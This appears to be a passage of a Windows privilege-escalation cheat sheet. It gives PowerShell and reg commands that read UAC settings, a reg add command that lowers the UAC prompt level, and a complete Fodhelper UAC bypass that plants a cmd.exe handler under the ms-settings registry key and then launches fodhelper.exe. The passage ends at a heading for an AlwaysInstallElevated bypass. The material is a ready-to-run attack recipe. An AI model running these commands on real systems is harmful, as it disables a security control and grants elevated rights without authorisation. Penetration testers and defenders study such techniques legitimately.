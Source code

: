 ```powershell
Get-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System' | Select-Object EnableLUA
```

- Get the UAC configuration level.

```powershell
Get-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System' | Select-Object ConsentPromptBehaviorAdmin
```

Enumerate UAC with CMD:
- Check if UAC is enabled with CMD. If the result is 0x1, UAC is enabled.

```c
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA 
```

- Get the UAC configuration level.

```c
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

Change the UAC configuration level

```c
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin /t REG_DWORD /d 2 /f
```

#### UAC Bypass using Fodhelper (Level 5)

- Create the registry item

```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\ms-settings\shell\open\command' -Force
```

- Configure the registry key with malicious values

```powershell
Set-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\ms-settings\shell\open\command' -Name '(Default)' -Value 'cmd.exe' -Type string
```

```powershell
Set-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\ms-settings\shell\open\command' -Name 'DelegateExecute' -Value '' -Type string
```

- Finally run `fodhelper`

```c
fodhelper.exe
```

### UAC Bypass AlwayInstallElevated (Levels 1,2,3,4) (Get SYSTEM)
